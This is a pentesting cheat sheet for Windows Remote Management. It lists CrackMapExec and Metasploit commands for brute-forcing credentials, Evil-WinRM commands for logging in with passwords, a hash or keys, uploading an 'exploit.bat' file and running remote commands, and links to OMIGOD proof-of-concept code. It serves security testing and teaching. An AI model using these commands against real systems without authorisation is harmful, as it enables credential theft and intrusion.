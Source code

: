 ```yaml
---
title: WinRM (Windows Remote Management) Pentesting
description: The Microsoft implementation of WS-Management Protocol which provides a common way for systems to access and exchange management information across an IT infrastructure. Default ports are 5985 (HTTP), 5986 (HTTPS), and also used 47001.
tags:
    - Windows
refs:
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647
date: 2023-05-28
draft: false
---
```


## Enumeration

### Brute Force Credentials

```sh
# CrackMapExec
poetry run crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt

# Metasploit
msfconsole
msf > use auxiliary/scanner/winrm/winrm_login
```

<br />

## Evil-WinRM

### Connect

**[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)** is a Windows Remote Management shell for pentesting.  
Below are list of commands for each situation.

```powershell
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```

If you have private key and public key, you can use them for authentication.

```sh
# -S: SSL
# -k: private key
# -c: public key
evil-winrm -i <target-ip> -S -k private.key -c public.key
```

### Commands

After connecting, we can use a lot of useful commands to exploit.  
Note that **we need to specify the absolute path for uploading and downloading.**

```powershell
# Upload a local file to Windows machine
PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat
# Download a file to local
PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt

# List all services
PS> services
```

<br />

## CrackMapExec

**[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)** is a swiss army knife for pentesting networks.  
The official docs says that it's recommended to use it via **Poetry** which is a Python package manager.  

First off, move to the directory in which the CrackMapExec installed and run **poetry install**.

```sh
cd crackmapexec
poetry install
```

Then execute with **poetry run**.

```sh
# Login and CMD execution (-x)
poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
# Login and PowerShell execution (-X)
poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

# Pass the Hash and CMD execution (-x)
poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
# Pass the Hash and PowerShell execution (-X)
poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
```

<br />

## OMIGOD (CVE-2021-38647)

Open Management Infrastructure (OMI) is vulnerable to Remote Code Execution (RCE).

There are many PoC available, for instance:

- [https://github.com/AlteredSecurity/CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647)
- [https://github.com/horizon3ai/CVE-2021-38647](https://github.com/horizon3ai/CVE-2021-38647)